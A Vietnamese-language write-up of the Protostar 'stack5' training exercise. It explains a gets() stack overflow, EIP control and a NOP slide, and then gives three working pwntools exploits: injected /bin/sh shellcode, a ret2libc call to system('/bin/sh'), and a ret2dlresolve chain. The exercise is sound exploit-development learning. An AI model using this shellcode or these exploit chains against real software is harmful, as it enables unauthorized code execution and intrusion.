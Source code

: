 # stack5

## Description

Chạy thử chương trình, nhập input vào thì ko có gì diễn ra. Mình đá thử qua hàm main thì thấy nó khá là ngắn.

```ASM (intel syntax)
   0x080483c4 <+0>:     push   ebp
   0x080483c5 <+1>:     mov    ebp,esp
   0x080483c7 <+3>:     and    esp,0xfffffff0
   0x080483ca <+6>:     sub    esp,0x50
   0x080483cd <+9>:     lea    eax,[esp+0x10]
   0x080483d1 <+13>:    mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:    call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:    leave  
   0x080483da <+22>:    ret
```

mình đoán bài này sẽ phải chèn shellcode vào chương trình. Dùng vmmap check lại xem phần vùng mình ghi dữ liêu có quyền chạy code hay không.

![vmmap](vmmap.png)

ta thấy phân vùng stack có quyền x. Dùng shellcraft để tạo shellcode. Tiếp theo là tìm padding, dùng cyclic và pwndbg để tìm ra giống những bài trước. Padding 76 bytes. Bây giờ ta cần phải control eip. Khi chúng ta kiểm soát eip, chúng ta cần hướng nó đến ngăn xếp nơi chúng ta có thể đặt mã của riêng mình. Đỉnh của ngăn xếp được trỏ tới bởi SP (hoặc con trỏ ngăn xếp) được gọi là esp trong các máy 32-bit. Đối với mình, esp được đặt tại `0xffffd250`(ASLR off) và bạn có thể kiểm tra vị trí của esp trong gdb. Nếu ta muốn jump đến shellcode của mình, ta cần jump đến giữa ngăn xếp (thay vì trên cùng nơi SP trỏ đến), vì vậy ta thường thêm một phần bù vào vị trí esp trong phần mã khai thác . Mình sử dụng offset là `100`. Có một lệnh trong hợp ngữ được là NOP, là 0x90 trong hệ thập lục phân, và NOP là bộ chứa khoảng trắng chuyển eip đến không gian tiếp theo trong bộ nhớ. Nếu chúng ta tạo một "bãi đáp" NOP khổng lồ và hướng eip về phía giữa ngăn xếp, tỷ lệ eip sẽ hạ cánh trên NOP của chúng ta và các NOP sẽ chuyển eip xuống để cuối vào shellcode của chúng ta. Đây thường được gọi là NOP slide, bởi vì eip sẽ hạ cánh trong các NOP và trượt xuống shellcode.

## Solution

### inject shellcode

```py
#!/usr/bin/python3
from pwn import *

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd250+100) # esp + offset

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode


p = process('./stack5')
p.sendline(payload)
p.interactive()
```

![run](run.png)

### system()

```python
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = cyclic(cyclic_find('taaa')) #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
p = process('./stack5')
p.sendline(payload)
p.interactive()
```

### ret2dlresolve

```python
#!python3
from pwn import *

elf = context.binary = ELF('../protostar/stack5', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.gets(dlresolve.data_addr) # gets to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```